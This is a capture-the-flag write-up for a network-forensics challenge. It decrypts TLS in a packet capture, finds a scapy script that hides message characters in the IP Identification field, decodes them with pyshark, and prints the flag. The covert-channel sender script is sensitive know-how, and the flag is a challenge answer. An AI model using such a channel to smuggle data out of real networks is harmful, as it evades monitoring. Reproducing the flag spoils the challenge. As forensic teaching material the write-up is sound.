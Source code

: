 # covert
>It appears there's been some shady communication going on in our network...

To start, we're given a pcap(ng) file and a keys.log file, so that should tell us we're gonna be fiddling with Wireshark. 

Opening up Wireshark, we see a lot of TLS packets and not a lot of HTTP so we configure the keys.log file in our Wireshark settings to decrypt this TLS for us. Now the beautiful greens of the HTTP packets are visible! 

Filtering to HTTP packets (of which there are only 6), we spot something interesting, looks like 172.20.10.5 was served a sneakly little python script

![image](https://github.com/user-attachments/assets/0d268e2e-b0c6-4c5d-b68b-a5c8c42cab79)


```python3
from scapy.all import IP, TCP, send
key = ??
dst_ip = "X.X.X.X"
dst_port = ?????
src_ip = "X.X.X.X"
src_port = ?????
def encode_message(message):
    for letter in message:
        ip = IP(dst=dst_ip, src=src_ip, id=ord(letter)*key)
        tcp = TCP(sport=src_port, dport=dst_port)
        send(ip/tcp)
encode_message("????????????")
```

The same host is also browsing a firsmonday.org article about Covert channels in the TCP/IP protocol suite over HTTP2 (hmm I wonder what this challenge will be about)

We now know to be suspicious about 172.20.10.5's requests over TCP, and if they're using the python script they fetched previously, they're using a 2-digit key to encode their secret messages in the IP section of the TCP packet. The encoding takes a single letter of their message, converts it to decimal, and multiplies it by their key.

The next thing to do is to start snooping around 172.20.10.5's TCP connections and pay extra attention to the IP header contents

![Peek 2024-09-20 02-26](https://github.com/user-attachments/assets/ee704806-84af-4299-9607-5ca6f005c980)

Ain't that strange... Looks like there's something going on with the Identification field. Let's analyze this bad boy in Python and see what kappens

```python3
import pyshark

def IPidTCPCovertChannel(packets_of_interest: list[int], flag_format: str, keylog_file: str=None) -> str:
    if keylog_file:
        cap = pyshark.FileCapture("chall.pcapng", override_prefs={"ssl.keylog_file": keylog_file})
    else:
        cap = pyshark.FileCapture("chall.pcapng")

    ip_ids_hex = []
    for idx in packets_of_interest:
        try:
            ip_ids_hex.append(cap[idx].ip.id)
        except AttributeError:
            pass

    #assuming this will give us the flag outright, we know it starts with csaw{ and ends with }
    str_ = ""
    for idx in range(len(ip_ids_hex)):
        #convert hex str ip_id_hex to decimal number ip_id_dec
        ip_id_dec = int(ip_ids_hex[idx], 16)
        #0 is divisible by everything and if we let a zero pass, we're gonna get a divide by zero error, so let's ignore naughty zeros
        if not ip_id_dec: continue
        #we're working with factors of idx, ensure that ip_id is divisible by idx
        if ip_id_dec % ord(flag_format[0]) == 0:
            key = ip_id_dec // ord(flag_format[0])
            if chr(ip_id_dec // key) == flag_format[0]: break
            #TODO may want to store all potentially valid keys in an array in case of false positives

    for idx in range(idx, len(ip_ids_hex)):
        str_ += chr(int(ip_ids_hex[idx], 16) // key)
        if str_[-1] == "}": break

    print(str_)

    return str_

if __name__ == "__main__":
    packets_of_interest = list(range(256, 306))
    flag_format = "csawctf{"
    keylog_file = "keys.log"
    flag = IPidTCPCovertChannel(packets_of_interest, flag_format, keylog_file=keylog_file)
```

Since we know the flag should start with 'c' (decimal 99), we can go letter by letter, checking if our encoded characters are divisible by 99 and, if so, check if the ASCII representation of said division is the character 'c'. If so, it's probably our flag. And just like magic, after running the script, we get: csawctf{licen$e_t0_tr@nsmit_c0vertTCP$$$}

